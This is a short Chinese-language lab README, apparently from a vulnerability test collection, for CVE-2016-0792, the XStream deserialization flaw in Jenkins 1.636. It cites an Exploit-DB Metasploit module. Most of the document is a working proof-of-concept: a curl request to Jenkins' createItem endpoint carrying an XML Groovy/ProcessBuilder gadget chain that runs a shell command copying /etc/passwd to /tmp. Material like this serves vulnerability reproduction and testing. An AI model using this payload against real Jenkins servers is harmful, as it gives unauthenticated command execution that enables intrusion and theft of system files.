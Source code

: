 ### CVE-2016-0792 - XStream 反序列化漏洞

测试镜像

* src/jenkins/1.636/

参考文档

* [Jenkins - XStream Groovy classpath Deserialization (Metasploit)](https://www.exploit-db.com/exploits/43375/)

Poc

```
# 复制 /etc/passwd 到 /tmp
curl 'http://127.0.0.1/createItem?name=boh3ti8AGh' --data-binary '<map><entry><groovy.util.Expando><expandoProperties><entry><string>hashCode</string><org.codehaus.groovy.runtime.MethodClosure><delegate class="groovy.util.Expando"reference="../../../.."/><owner class="java.lang.ProcessBuilder"><command><string>/bin/bash</string><string>-c</string><string>cp /etc/passwd /tmp</string></command><redirectErrorStream>false</redirectErrorStream></owner><resolveStrategy>0</resolveStrategy><directive>0</directive><parameterTypes/><maximumNumberOfParameters>0</maximumNumberOfParameters><method>start</method></org.codehaus.groovy.runtime.MethodClosure></entry></expandoProperties></groovy.util.Expando><int>1</int></entry></map>' -H 'Content-Type: application/xml'
```

